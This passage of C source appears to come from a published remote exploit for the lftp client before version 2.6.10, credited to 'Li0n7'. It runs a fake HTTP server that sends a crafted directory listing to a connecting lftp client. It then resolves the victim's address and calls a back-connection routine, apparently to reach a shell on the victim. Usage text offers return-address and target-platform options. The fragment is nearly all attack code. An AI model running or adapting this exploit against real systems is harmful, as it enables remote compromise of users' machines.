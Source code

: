               snprintf(request,512,"HTTP/1.1 200 OK\n"
                     "Server: thttpd/2.21 20apr2001\n"
                     "Content-Type: text/html\n"
                     "Date: Sun, 21 Dec 2003 16:29:44 GMT\n"
                     "Last-Modified: Sun, 21 Dec 2003 16:23:41 GMT\n"
                     "Accept-Ranges: bytes\n"
                     "Connection: close\n\n"
                     "<a href=\"/\">empty</a>\tFri May 30 10:09:06 2001 %s\n",build((char*)inet_ntoa(s.sin_addr)));

              size = send(fd2, request, strlen(request), 0);
              if(size < 0)
              {
              fprintf(stderr,"[-] %s\n",strerror(errno));
              close(fd2);
              exit(1);
              }
              sleep(2);
              host = resolve_host((char *)inet_ntoa(s.sin_addr));
              back_connection(host);
              cancel = 1;
              break;
            }
          }
          }
          if(cancel == 1) break;
        }
        close(fd2);
      }
      return;
    }


    long resolve_host(u_char *host_name)
    {
      struct in_addr addr;
      struct hostent *host_ent;

      addr.s_addr = inet_addr(host_name);
      if (addr.s_addr == -1)
      {
        host_ent = gethostbyname(host_name);
        if (!host_ent) return(0);
        memcpy((char *)&addr.s_addr, host_ent->h_addr, host_ent->h_length);
      }

      return(addr.s_addr);
    }


    void
    die(char *argv)
    {
      int i;
      fprintf(stdout,"\t Remote exploit for lftp < 2.6.10 by Li0n7 \n");
      fprintf(stdout,"\n usage: %s [-f <path>][-p <port>][-r <ret>][-t <target>]\n",argv);
      fprintf(stdout," -f <path>: create <path>index.html\n");
      fprintf(stdout," -p <port>: run a fake lftp server on port <port> (default: 80)\n");
      fprintf(stdout," -r <ret>: return address you would like to use\n");
      fprintf(stdout," -t <target>: choose the target among the platforms available\n");
      fprintf(stdout," Platforms supported are:\n");
      for(i=0; exp_os[i].plat != NULL; i++)
        fprintf(stderr," num: %i - %s - 0x%x\n",i,exp_os[i].plat,exp_os[i].ret);
      fprintf(stdout,"\n Vulnerability discovered by Ulf Harnhammar <Ulf.Harnhammar.9485@student.uu.se> \n");
      fprintf(stdout," Contact me: Li0n7@voila.fr\n\n");
      exit(1);
    }